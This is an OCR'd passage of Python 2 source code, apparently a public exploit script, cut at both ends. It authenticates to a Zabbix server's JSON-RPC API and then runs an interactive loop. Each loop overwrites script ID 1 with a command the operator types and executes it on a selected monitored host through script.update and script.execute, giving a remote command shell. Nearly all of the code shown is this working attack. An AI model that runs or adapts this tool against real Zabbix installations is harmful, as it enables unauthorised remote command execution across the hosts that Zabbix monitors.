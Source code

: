 ```
 33     print("[*] Current host is " + hosts[execute_on] + '\n')
 34 
 35 set_host('zabbix')
 36 
 37 
 38 ### auth
 39 payload = {
 40         "jsonrpc" : "2.0",
 41     "method" : "user.login",
 42     "params": {
 43         'user': ""+login+"",
 44         'password': ""+password+"",
 45     },
 46         "auth" : None,
 47     "id" : 0,
 48 }
 49 headers = {
 50     'content-type': 'application/json',
 51 }
 52 
 53 auth  = requests.post(url, data=json.dumps(payload), headers=(headers))
 54 auth = auth.json()
 55 
 56 while True:
 57         cmd = raw_input('\033[41m[' + hosts[execute_on]  + '_cmd]>>: \033[0m ')
 58         if cmd == "" : print "Result of last command:"
 59         if cmd == "quit" : break
 60         if cmd.lower().startswith('host ') and len(cmd.split(' ')) > 1:
 61             set_host(cmd.split(' ')[1])
 62             continue
 63 
 64 ### update
 65         payload = {
 66                 "jsonrpc": "2.0",
 67                 "method": "script.update",
 68                 "params": {
 69                     "scriptid": "1",
 70                     "command": ""+cmd+"",
 71                     "execute_on": str(execute_on)
 72                 },
 73                 "auth" : auth['result'],
 74                 "id" : 0,
 75         }
 76 
 77         cmd_upd = requests.post(url, data=json.dumps(payload), headers=(headers))
 78 
 79 ### execute
 80         payload = {
 81                 "jsonrpc": "2.0",
 82                 "method": "script.execute",
 83                 "params": {
 84                     "scriptid": "1",
 85                     "hostid": ""+hostid+""
 86                 },
 87                 "auth" : auth['result'],
 88                 "id" : 0,
 89         }
 90 
 91         cmd_exe = requests.post(url, data=json.dumps(payload), headers=(headers))
 92         cmd_exe = cmd_exe.json()
 93         try:
 94             print cmd_exe["result"]["value"]
 95         except KeyError:
```
